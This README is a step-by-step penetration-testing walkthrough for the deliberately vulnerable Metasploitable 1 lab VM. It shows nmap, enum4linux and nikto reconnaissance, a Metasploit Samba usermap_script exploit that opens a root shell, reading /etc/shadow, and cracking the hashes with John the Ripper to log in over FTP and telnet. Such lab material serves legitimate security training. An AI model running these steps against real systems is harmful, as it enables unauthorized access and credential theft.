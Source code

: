 # Metasploitable Walkthrough

This README provides a step-by-step guide to identifying and exploiting vulnerabilities in the Metasploitable virtual machine for learning and practice purposes.

---

## Prerequisites

- **VirtualBox** or **VMware** installed on your machine.
- **Metasploitable VM** downloaded and configured.
- **Kali Linux** or any penetration testing OS installed.
- Basic knowledge of Linux and penetration testing tools.

---

## Step 1: Initial Setup

### Network Configuration

- Set the network of both Metasploitable and the attacker machine to **NAT Network** or **Host-Only** to ensure they are on the same subnet.

### Metasploitable: 1 Details

- **Name:** Metasploitable: 1  
- **Date Released:** May 19, 2010  
- **Author:** Metasploit  
- **Series:** Metasploitable  
- **Web Page:** [Metasploitable Blog](http://web.archive.org/web/20100525233058/http://blog.metasploit.com/2010/05/introducing-metasploitable.html)

### Download

- **File:** `Metasploitable.zip` (Size: 545 MB)  
- **Download Link:** [Download from VulnHub](https://download.vulnhub.com/metasploitable/Metasploitable.zip)

> **Note:** VulnHub is a free community resource. Review their FAQs about safely using vulnerable VMs before proceeding.

### Example Target IP:
- **Target IP:** `192.168.48.145`

---

## Step 2: Reconnaissance

### Nmap

#### Command:
```bash
nmap 192.168.48.1/24 -sV
```
#### Example Output:
```
Nmap scan report for 192.168.48.145
Host is up (0.0021s latency).
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.1
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.10 with Suhosin-Patch)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
```

### Enum4Linux

#### Command:
```bash
enum4linux -a 192.168.48.145
```
#### Example Output:
```
Known Usernames: administrator, guest, krbtgt, domain admins, root, bin, none
Workgroup/Domain: WORKGROUP
```

### Nikto

#### Command:
```bash
nikto -h 192.168.48.145
```
#### Example Findings:
- **Apache mod_negotiation**: Enabled with MultiViews.
- **Outdated Software**: Apache 2.2.8, PHP 5.2.4.
- **Directory Indexing**: Found `/icons/`.
- **Vulnerabilities**: X-Frame-Options header missing, potential XST (Cross-Site Tracing).

---

## Step 3: Exploitation

### Exploiting Samba Usermap Script

#### Commands:
```bash
msfconsole -q
use exploit/multi/samba/usermap_script
set rhosts 192.168.48.145
run
```
#### Example Output:
```
[*] Command shell session 1 opened...
root@metasploitable:/#
```

### Example Commands in Shell:
```bash
ls
cat /etc/shadow
```

---

## Step 4: Cracking Hashes

### Using John the Ripper

#### Command:
```bash
john --wordlist='/path/to/rockyou.txt' hash.txt
```
#### Example Output:
```
msfadmin:msfadmin
klog:123456789
sys:batman
service:service
```

---

## Step 5: Accessing Other Services

### FTP Access

#### Command:
```bash
ftp msfadmin@192.168.48.145
```
#### Example Output:
```
Remote directory: /home/msfadmin
```

### Telnet Access

#### Command:
```bash
telnet 192.168.48.145
```
#### Example Output:
```
metasploitable login: service
Password: service
```

---

## Step 6: Cleanup

- Close any open sessions.
- Remove any files created during exploitation.
- Verify no artifacts are left on the target.

---

## Notes

- **Educational Use Only**: Ensure you have proper authorization before testing.
- Metasploitable is intentionally vulnerable; use responsibly in controlled environments.

